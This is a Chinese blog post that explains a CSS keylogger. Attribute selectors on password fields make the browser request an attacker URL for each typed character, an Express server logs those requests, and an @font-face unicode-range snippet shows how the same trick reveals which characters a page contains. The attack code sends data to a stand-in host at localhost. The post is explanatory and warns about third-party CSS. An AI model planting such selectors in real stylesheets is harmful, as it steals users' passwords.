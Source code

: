```yaml
---
layout: post
title:  "CSS攻击：记录用户密码"
date:   2018-03-01
categories: CSS
author: 张翔
location: ShangHai, China
cover: ""
description: CSS也能成为攻击者的使用工具，用来记录用户的输入数据。
---
```

---
简单的CSS代码，甚至不符合图灵完备的语言，但是也能成为一些攻击者的工具，下面简单介绍一下如何使用CSS去记录用户的密码。但是这些CSS脚本会出现在第三方CSS库中，所以使用第三方CSS库也需要谨慎，确保代码安全。
直接上代码解析：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
input[type="password"][value$="1"] { 
    background-image: url("http://localhost:3000/1"); 
}
input[type="password"][value$="2"] { 
    background-image: url("http://localhost:3000/2"); 
}
```

以上是**部分代码**,我们来解析一下CSS代码
`input[type="password"]`是css选择器，作用是选择密码输入框，`[value$="0"]`表示匹配输入的值是以0结尾的。
所以：
```CSS
input[type="password"][value$="0"] { 
    background-image: url("http://localhost:3000/0"); 
}
```
上面代码的意思就是如果你在密码框中输入0，就去请求`http://localhost:3000/0`接口，但是浏览器**默认情况下**是不会将用户输入的值存储在**value属性**中，但是有的框架会同步这些值，例如**React**。
所以只要使用了如下图的脚本就能去存储用户的输入数据信息。


我们再来看一下服务器端的代码
```javaScript
const express = require("express");
const app = express();

app.get("/:key", (req, res) => {
process.stdout.write(req.params.key);
return res.sendStatus(400);
});

app.listen(3000, () => console.log("启动，监听3000端口"));
```

使用**express**创建服务器，监听**3000端口**，只要请求`http://localhost:3000/:key`，就能输出key的值，**就能在服务器上记录输入的值**。
所以只要在每输入一个值都匹配，然后通过 `background-image` 去请求一个已经准备好的**接口**，就能记录用户的输入。

类似的方法记录用户的内容的CSS代码
```CSS
@font-face {
  font-family: blah;
  src: url('http://localhost:3000/a') format('woff');
  unicode-range: U+85;
}
html {
  font-family: blah, sans-serif;
}
```
你使用的的css的简单的**字体库**，只要你的页面中包含a，就会去请求`http://localhost:3000/a`，这样就能知道你的页面中包含有a字符。